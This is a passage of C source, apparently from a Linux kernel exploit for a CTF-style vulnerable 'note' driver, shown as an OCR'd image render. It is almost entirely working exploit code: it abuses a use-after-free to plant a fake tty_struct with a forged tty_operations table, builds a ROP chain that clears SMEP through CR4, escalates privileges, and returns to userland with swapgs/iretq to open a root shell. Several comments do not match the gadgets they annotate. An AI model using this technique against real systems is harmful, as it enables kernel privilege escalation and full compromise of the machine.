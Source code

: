 ```
    }
    fake_tty_operations[0] = pop_rax_rbx_r12_r13_rbp_ret;
    fake_tty_operations[1] = (size_t)rop;
 
    size_t fake_tty_struct[4] = {0};
    fake_tty_struct[0] = 0x0000000100005401;//need to set magic number
    fake_tty_struct[1] = 0;
    fake_tty_struct[2] = 0;
    fake_tty_struct[3] = (size_t)fake_tty_operations;
 
 
 
    editChunk.idx = 0;
    editChunk.len = 0x20;
    editChunk.data = fake_tty_struct;
 
    freeFun(fd,&editChunk);
 
    pos = "/dev/ptmx";
    fd_tty = openDev(pos);
    printf("fd_tty:0x%d\n",fd_tty);
    editFun(fd, &editChunk);
 
 
    //rop set
    save_state();
    rop[i++] = pop_rdi_ret;      // pop_rax_rbx_r12_rbp_ret
    rop[i++] = 0x6f0;
    rop[i++] = movCr4Rdi_pop_rbp_ret;      // mov cr4, rax; pop rbp; ret;
    rop[i++] = 0;
    rop[i++] = (size_t)getR;
    rop[i++] = swapgs_popRbp_ret;      // swapgs;ret
    rop[i++] = 0x0;
    rop[i++] = iretq;      // iretq
    rop[i++] = (size_t)sh;
    rop[i++] = user_cs;                /* saved CS */
    rop[i++] = user_rflags;            /* saved EFLAGS */
    rop[i++] = user_sp;
    rop[i++] = user_ss;
 
    write(fd_tty,buf,0x10);
 
    return 0;
 
}
 
 
int openDev(char* pos){
    int fd;
    printf("[+] Open %s...\n",pos);
    if ((fd = open(pos, O_RDWR)) < 0) {
        printf("    Can't open device file: %s\n",pos);
        exit(1);
    }
    return fd;
}
 
void addFun(int fd, struct addNote* arg)
{
    ioctl(fd,1,arg);
}
 
void freeFun(int fd, struct editNote* arg)
```